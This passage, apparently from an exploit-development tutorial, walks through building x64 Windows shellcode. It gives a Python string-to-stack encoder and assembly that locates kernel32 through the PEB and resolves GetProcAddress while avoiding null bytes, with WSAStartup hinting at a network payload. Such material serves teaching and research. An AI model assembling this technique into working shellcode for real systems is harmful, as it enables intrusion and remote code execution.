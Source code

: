 The following Python code is used to automate the conversion of a string into little endian hexadecimal format and then, generate x64 assembly instructions to push it onto the stack:

```python
import binascii
import sys
 
def encodeCommand(command):
    result = "".join("{:02x}".format(ord(c)) for c in command)
    ba = bytearray.fromhex(result)
    ba.reverse()
    ba.hex()
 
    input = ba.hex()
    input = input[::-1]
    n = 16
 
    byte_list = [input[i:i+n] for i in range(0, len(input), n)]
    for x in reversed(byte_list):
        print("mov rax, 0x" + x[::-1])
        print("push rax;")
 
 
string = sys.argv[1]
encodeCommand(string)
```

Subsequently, the string `WSAStartup` is encoded.

```
PS C:\Users\s4dbrd\Desktop> python .\encodeString.py WSAStartup
mov rax, 0x7075
push rax;
mov rax, 0x7472617453415357
push rax;
```

### Find GetProcAddress

As mentioned above, instead of parsing the EAT to find the pointer to `WinExec`, it will be done for `GetProcAddress`.

```
" start: "
# "   int3;"                        # Breakpoint
# "  sub rsp, 0x208;"               # Free up space in the stack (Null Byte)
"   add rsp, 0xfffffffffffffdf8;"   # Free up space in the stack (Fix)
" locate_kernel32:"
"   xor rcx, rcx;"                  # Null RCX content
"   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
"   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
"   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
"   lodsq;"                         # Loads qword from RSI into RAX
"   xchg rax, rsi;"                 # Swap RAX & RSI
"   lodsq;"                         # Loads qword from RSI into RAX
"   mov rbx, [rax + 0x20];"         # RBX = Kernel32 base address
"   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
"   mov ebx, [rbx+0x3C];"           # Get offset to the PE header from the DOS header at offset 0x3C
"   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
# "   mov edx, [rbx+0x88];"         # Get Relative Virtual Address (RVA) of Export Address Table from PE header (Null Byte)
# Fix below
"   xor r12, r12;"                  # Zero out r12 to start fresh
"   add r12, 0x88FFFFF;"            # Load r12 with a large number
"   shr r12, 0x14;"                 # Right-shift r12 by 20 bits to get 0x88
```